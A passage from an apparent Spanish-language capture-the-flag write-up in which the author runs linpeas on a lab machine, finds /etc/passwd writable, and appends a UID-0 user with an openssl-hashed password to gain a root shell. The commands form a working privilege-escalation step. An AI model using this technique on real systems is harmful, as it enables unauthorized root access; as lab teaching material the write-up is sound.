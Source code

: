 ```sh
nobody@speed:/tmp$ ./linpeas.sh
[...]

═╣ Writable passwd file? ................ /etc/passwd is writable

[...]
```

¡Wow! Tenemos permisos de escritura en el fichero **`/etc/passwd`**{: .filepath }.

Para poder explotar este permiso mal configurado me fui a [**`HackTricks`**](https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-etc-passwd), una web que recopila información sobre técnicas en **`pentesting`**.

Como vemos nos explica paso a paso cómo podemos inyectar un usuario en este fichero, así que sigamos los pasos:

```sh
nobody@speed:/tmp$ echo "blackcage:$(openssl passwd -1 -salt black black):0:0:BlackCage:/root:/bin/bash" >> /etc/passwd
nobody@speed:/tmp$ su blackcage
Password: black
root@speed:/tmp#
```

¡Enhorabuena! Ya tenemos el **`control total`** de la máquina. ¡Qué fácil!
